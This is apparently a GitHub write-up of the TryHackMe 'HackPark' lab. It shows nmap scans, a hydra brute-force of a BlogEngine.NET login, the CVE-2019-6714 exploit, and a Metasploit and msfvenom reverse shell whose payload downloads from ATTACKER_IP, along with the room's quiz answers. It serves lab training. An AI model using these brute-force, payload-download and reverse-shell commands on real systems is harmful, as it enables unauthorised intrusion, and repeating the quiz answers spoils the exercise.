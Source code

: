 ## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gain Access](#gain-access)
4. [Privilege Escalation](#privilege-escalation)
5. [Conclusion](#conclusion)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Performing a `nmap` scan shows 2 ports open:
```shell-session
$ sudo nmap -oN nmap_scan.txt -sS -vv -Pn --top-ports 2000 TARGET_IP

PORT     STATE SERVICE       REASON
80/tcp   open  http          syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127

# Service Scan:
$ sudo nmap -sV -v -Pn -p80,3389 TARGET_IP 
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
3389/tcp open  ssl/ms-wbt-server?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Port 80 is hosting a web server, so we can visit it using a browser. Doing so takes us to a page with a large image of the clown from the movie: _IT_ (Pennywise). 

> What's the name of the clown displayed on the homepage?
>
> Answer: Pennywise

There's also a login page that can be accessed through the menu on the site:
![](login-page.png)

The answer to the next question in the task is:
> What request type is the Windows website login form using?
>
> Answer: POST

We can try to brute force this page and get credentials to access dashboards...

Before doing so, let's have a look at the request sent by the browser when we try to login (using burpsuite):
```HTTP
POST /Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
Host: TARGET_IP
Content-Length: 754
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://TARGET_IP
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://TARGET_IP/Account/login.aspx?ReturnURL=%2fadmin%2f
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

__VIEWSTATE=ZYDPgbo6PPbwOT2Mn79PRxOj2KAitM6qGzG8PvrhdQ0mhB558OwWVsyZPCfvK0Ux99LOmK99fD71tRh9%2FT9zyANOnNPgYD41WBeOFxFDoz95lpwjulKWbPp4DPw2GPHVjrnFsTnLBuxxMt%2FN92PmAQobgHl8Y0wv76Mry2hDgQQmM%2B0leUopZFzkBNPIKKYoijGHEeqdMQNXCLjqFGT84KfwXX1P7MFDzeKZdHbGL26YM1lSqMgYY04pLxog6KiaOCoOGO4qd%2BZDKSQ5pt%2FqLQ5EE79RnC4UUvfJdBX4qQ0C7XTvIl5SfFIgg%2FiznUJYNKjPhjEheD2HKdFufYnbx%2BXX6CGM%2BufJQn%2FuZlma8%2FvtU3vd&__EVENTVALIDATION=cATZvOlVaLIRFaqFkdYaC%2F3nD3qbL%2BFzHncM1DwHiN1TuEP5rU2lqj2oUgmfNZQ9MjhfQPvp02XWYzjiD%2BbHPZiLswWxWgEFfmkDg7lB1pWIAPE2K6KlarbGgU1TKBbt3YnuoylDYSxdKDoFEwGE6kFzqNQ3soFuov%2FLG6httNDTKZI7&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=admin&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```

We can use the `_VIEWSTATE` part of this with hydra for the bruteforcing process.

## Gaining Access

Using `hydra` to brute force the login page we obtain the required credentials:
```shell-session
$ sudo hydra -l admin -P /usr/share/seclists/Passwords/rockyou.txt TARGET_IP http-post-form "/Account/login.aspx:__VIEWSTATE=ZYDPgbo6PPbwOT2Mn79PRxOj2KAitM6qGzG8PvrhdQ0mhB558OwWVsyZPCfvK0Ux99LOmK99fD71tRh9%2FT9zyANOnNPgYD41WBeOFxFDoz95lpwjulKWbPp4DPw2GPHVjrnFsTnLBuxxMt%2FN92PmAQobgHl8Y0wv76Mry2hDgQQmM%2B0leUopZFzkBNPIKKYoijGHEeqdMQNXCLjqFGT84KfwXX1P7MFDzeKZdHbGL26YM1lSqMgYY04pLxog6KiaOCoOGO4qd%2BZDKSQ5pt%2FqLQ5EE79RnC4UUvfJdBX4qQ0C7XTvIl5SfFIgg%2FiznUJYNKjPhjEheD2HKdFufYnbx%2BXX6CGM%2BufJQn%2FuZlma8%2FvtU3vd&__EVENTVALIDATION=cATZvOlVaLIRFaqFkdYaC%2F3nD3qbL%2BFzHncM1DwHiN1TuEP5rU2lqj2oUgmfNZQ9MjhfQPvp02XWYzjiD%2BbHPZiLswWxWgEFfmkDg7lB1pWIAPE2K6KlarbGgU1TKBbt3YnuoylDYSxdKDoFEwGE6kFzqNQ3soFuov%2FLG6httNDTKZI7&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -I -t 64

...

[80][http-post-form] host: TARGET_IP   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
```

We have the credentials to access `admin`'s dashboard.

> Guess a username, choose a password wordlist and gain credentials to a user account!
>
> Answer: `1qaz2wsx`

Visiting the _about_ page from the dashboard, we can chcek the version of BlogEngine, along with more details...

> Now you have logged into the website, are you able to identify the version of the BlogEngine?
>
> Answer: `3.3.6.0`

We can use `searchsploit` or ExploitDB to search for an exploit. Particularly, we can use [this](https://www.exploit-db.com/exploits/46353) exploit for RCE and gaining an initial reverse shell access to the target system. 

```cs
# Exploit Title: BlogEngine.NET <= 3.3.6 Directory Traversal RCE
# Date: 02-11-2019
# Exploit Author: Dustin Cobb
# Vendor Homepage: https://github.com/rxtur/BlogEngine.NET/
# Software Link: https://github.com/rxtur/BlogEngine.NET/releases/download/v3.3.6.0/3360.zip
# Version: <= 3.3.6
# Tested on: Windows 2016 Standard / IIS 10.0
# CVE : CVE-2019-6714
```

> What is the CVE?
>
> Answer: `CVE-2019-6714`

Using the exploit, we gain initial access to the server (follow the instructions in the comments in the exploit file). Go to the posts published by the user and go into the editing mode. Open the file manager and upload the exploit file. Once that is done, we visit the url: `http://TARGET_IP/?theme=../../App_Data/files` to trigger the exploit. Before triggering the exploit, we'll also need a listener:

```shell-session
$ sudo msfconsole -q
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LPORT 4445
LPORT => 4445
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:4445 
```

After starting this listener, we can go to the mentioned URL and obtain a shell session:

```shell-session
[*] Command shell session 1 opened (ATTACKER_IP:4445 -> TARGET_IP:49336) at 2022-11-26 10:57:28 +0330


Shell Banner:
Microsoft Windows [Version 6.3.9600]
-----
          
c:\windows\system32\inetsrv> whoami
iis apppool\blog
```

> Who is the webserver running as?
>
> Answer: `iis apppool\blog`

## Privilege Escalation

Generating a reverse shell payload using `msfvenom`:
```shell-session
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=ATTACKER_IP LPORT=4446 -f exe -o shell.exe
```

Next, we'll start a http server and request the file from the previous shell session:
```shell-session
$ python3 -m http.server 4443
Serving HTTP on 0.0.0.0 port 4443 (http://0.0.0.0:4443/) ...

# On the shell session
c:\Users\Public\Documents>PowerShell Invoke-WebRequest -Uri http://ATTACKER_IP:4443/shell.exe -Outfile shell.exe
```

Now, we can execute the `shell.exe` file to get a meterpreter shell:
```shell-session
c:\Users\Public\Documents>start shell.exe

# Metasploit handler/listener:
[*] Sending stage (175686 bytes) to TARGET_IP
[*] Meterpreter session 13 opened (ATTACKER_IP:4446 -> TARGET_IP:49218) at 2022-11-26 11:38:20 +0330

meterpreter >
```

We can now try to get some information for escalation:
```shell-session
meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

> What is the OS version of this windows machine?
>
> Answer: `Windows 2012 R2 (6.3 Build 9600)`

Using `winPEAS` for further enumeration:
```shell-session
meterpreter > cd "C:\Users\Public\Documents\ "
meterpreter > shell
Process 2436 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Public\Documents> powershell -c wget "http://ATTACKER_IP:4443/winPEAS.bat" -outfile winPEAS.bat

```

## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [HackPark](https://tryhackme.com/room/hackpark)
